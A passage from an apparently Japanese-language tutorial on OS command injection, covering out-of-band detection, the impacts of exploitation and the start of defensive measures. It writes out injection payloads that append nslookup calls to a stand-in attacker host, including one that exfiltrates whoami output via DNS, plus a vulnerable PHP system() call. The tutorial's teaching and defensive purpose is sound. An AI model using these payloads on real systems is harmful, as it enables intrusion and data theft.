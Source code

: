 **手法2: 外部への通信を利用した攻撃（Out-of-band）**

`nslookup`や`curl`、`wget`といったコマンドを使い、攻撃者が管理する外部のサーバーへ通信を発生させることで、コマンドの実行を確認します。

*   **攻撃ペイロード**: `test@example.com ; nslookup YOUR-ATTACKER-SERVER.com`
*   **実行されるコマンド**: `echo "..." | mail -s "..." test@example.com ; nslookup YOUR-ATTACKER-SERVER.com`

攻撃者は、自身が管理する`YOUR-ATTACKER-SERVER.com`のDNSログを監視します。標的のサーバーからこのドメインに対する名前解決のリクエストが届けば、`nslookup`コマンドが正常に実行されたと判断できます。この手法を使えば、`whoami`（実行ユーザーの確認）や`ls -la /`（ルートディレクトリのファイル一覧）といったコマンドの実行結果を、サブドメインとして外部サーバーに送信させることも可能です。

例：`test@example.com ; nslookup `whoami`.YOUR-ATTACKER-SERVER.com`

---

### 3. OSコマンドインジェクションによる影響

この脆弱性が悪用されると、非常に広範囲で深刻な被害が発生する可能性があります。実行されるコマンドはWebサーバーのプロセス権限で動作しますが、他の脆弱性と組み合わせることで、さらに権限を昇格させられる危険もあります。

*   **情報漏えい**: サーバー内の機密ファイル（設定ファイル、パスワードファイル、個人情報など）を不正に閲覧・窃取される。
*   **データの改ざん・破壊**: Webサイトのコンテンツを改ざんしたり、重要なファイルを削除したりする。
*   **サーバーの乗っ取り**: 不正なプログラムやバックドアをダウンロード・実行され、サーバーを完全に制御される。
*   **マルウェア感染**: サーバーにランサムウェアなどのマルウェアを感染させられる。
*   **サービス妨害（DoS）**: `shutdown`コマンドでサーバーを停止させられたり、リソースを大量に消費するプロセスを実行されたりして、サービスを提供不能な状態に陥らせる。
*   **他のシステムへの攻撃の踏み台**: 侵害したサーバーを中継点として、他の内部システムや外部のWebサイトへ攻撃を仕掛けるための踏み台として悪用される。

---

### 4. 具体的な対処手順（防御策）

OSコマンドインジェクションを防ぐための対策は、複数の階層で実施することが重要です。

#### 根本的対策：OSコマンド呼び出しの原則禁止

最も安全で効果的な対策は、**そもそもアプリケーションからOSコマンドを呼び出す機能を使わないこと**です。 プログラミング言語には、ファイル操作、メール送信、画像処理など、多くの機能がライブラリやAPIとして提供されています。OSコマンドに頼らず、これらの言語標準の機能を活用することで、脆弱性が生まれる根本原因を排除できます。

*   **代替手段の例**:
    *   ファイルの存在確認: `file_exists()` (PHP), `os.path.exists()` (Python)
    *   ファイル操作: `fopen`/`fwrite` (PHP), `open()` (Python)
    *   メール送信: PHPMailerライブラリ (PHP), smtplib (Python)

#### やむを得ずOSコマンドを利用する場合の対策

どうしてもOSコマンドの呼び出しが必要な場合は、以下の対策を厳格に実施する必要があります。

**1. シェルを介さない安全な関数の利用**

多くのプログラミング言語では、コマンドを直接実行する関数（シェルを経由しない）が用意されています。これらは、引数を一つのまとまりとして扱うため、メタ文字を注入されても解釈されません。

*   **PHPの例**:
    *   脆弱な方法: `system('ping -c 3 ' . $ip);`
    *   安全な方法: `pcntl_exec('/bin/ping', ['-c', '3', $ip]);` のように、コマンドと引数を分離して渡す。（ただし、`pcntl_exec`は実装が複雑なため、引数のエスケープが現実的）
